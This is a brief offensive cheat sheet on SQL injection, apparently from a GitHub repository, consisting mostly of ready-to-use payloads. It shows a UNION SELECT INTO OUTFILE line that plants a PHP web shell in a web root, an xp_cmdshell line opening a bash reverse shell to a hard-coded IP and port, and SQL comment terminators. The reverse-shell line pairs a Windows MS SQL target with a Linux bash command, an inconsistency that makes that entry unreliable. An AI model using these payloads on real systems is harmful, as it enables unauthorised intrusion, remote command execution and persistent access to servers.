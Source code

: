 # SQL Injection

## SQL reverse shells

```sql
UNION SELECT '<?php system($_GET["cmd"]); ?>' FROM mytable INTO OUTFILE '/var/www/html/shell.php'
```

### If the target system is Windows and uses MS SQL

```sql
EXEC xp_cmdshell '/bin/bash -i >& /dev/tcp/10.11.0.98/443 0>&1'
```

## Comments

```sql
;#
;--
```

